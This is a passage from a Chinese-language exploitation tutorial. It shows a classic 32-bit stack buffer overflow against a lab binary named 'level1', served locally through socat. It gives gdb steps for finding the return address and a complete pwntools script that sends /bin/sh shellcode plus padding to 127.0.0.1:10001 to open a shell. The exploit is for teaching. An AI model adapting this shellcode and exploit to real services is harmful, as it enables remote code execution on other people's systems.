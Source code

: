 <img src="/images/posts/ROP--x86/1523020613825.png" > 

因为溢出点是140个字节，再加上4个字节的ret地址，我们可以计算出buffer的地址为`$esp-144`。通过gdb的命令 `x/10s $esp-144`，我们可以得到buf的地址为0xbffff5b0
红框框住的内存地址即为我们需要的ret地址0xbffff5b0（这个图中显示的是remote到127.0.0.1：10001上时候调试的，本地的也是一样的，exp也就是改一下ret地址就可以正常get到shell）

如果要把这个目标程序作为一个服务绑定到服务器的某个端口上，这里我们可以使用socat这个工具来完成，命令如下：
`socat TCP4-LISTEN:10001,fork EXEC:./level1`
随后这个程序的IO就被重定向到10001这个端口上了，并且可以使用 nc 127.0.0.1 10001来访问我们的目标程序服务了。

因为现在目标程序是跑在socat的环境中，exp脚本除了要把p = process('./level1')换成p = remote('127.0.0.1',10001) 之外，ret的地址还会发生改变。解决方法还是采用生成core dump的方案，然后用gdb调试core文件获取返回地址。然后我们就可以使用exp进行远程溢出啦！

```
#!/usr/bin/env python
from pwn import *

#p = process('./level1') 
p = remote('127.0.0.1',10001)
#ret = 0xbffff660 #本地调试得到的ret地址
ret = 0xbffff5b0  #远程调试得到的ret地址
#注：core dump的buf地址可能会改变，需要在一段时间后执行脚本要重新计算ret值
shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

# p32(ret) == struct.pack("<I",ret) 
#对ret进行编码，将地址转换成内存中的二进制存储形式

payload = shellcode + 'A' * (140 - len(shellcode)) + p32(ret)

p.send(payload) #发送payload

p.interactive() #开启交互shell
```
